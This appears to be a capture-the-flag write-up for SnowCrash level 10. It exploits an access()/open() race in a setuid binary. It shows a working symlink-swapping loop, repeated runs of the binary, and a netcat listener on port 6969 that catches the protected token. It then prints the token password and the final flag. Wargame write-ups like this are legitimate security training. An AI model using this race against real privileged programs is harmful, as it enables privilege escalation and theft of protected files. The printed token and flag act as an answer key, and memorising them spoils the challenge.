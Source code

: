 ### Level10

Again we have an executable and a file named token. If I run the program with or without the token I always get the same result:

`./level10 file host sends file to host if you have access to it`

To find out more I look at `level10` with `strings` and I get 2 very important pieces of information. 

First we can see that the program makes a call to `access` which makes it vulnerable as the man tells us:
```
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.   For this reason, the use of this system call should be avoided. (In the example just described, a safer alternative would be to temporarily switch the process effective user ID to the real ID and then call open(2).
```

Then I could learn that the program connects to port `6969`.

To get the flag I have to open the token through a symbolic link created with another file in my HOME. So I automate the process of creating the symbolic link and calling `./level10` with `while` in my shell:
```
level10@SnowCrash:~$ chmod 777 . && touch test
level10@SnowCrash:~$(while true; do ln -sf test tmp; ln -sf token tmp; done)&
level10@SnowCrash:~$ while true; do ./level10 tmp 127.0.0.1; done
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
You don't have access to tmp
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```

Then in another shell I listen on the port with the following command:

`while true; do nc -l 6969; done`

So I quickly see the contents of the token: `woupa2yuojeeaaed06riuj63c`

We just have to connect to the flag10 with this password and launch the getflag command

You get the flag!
> feulo4b72j7edeahuete3no7c
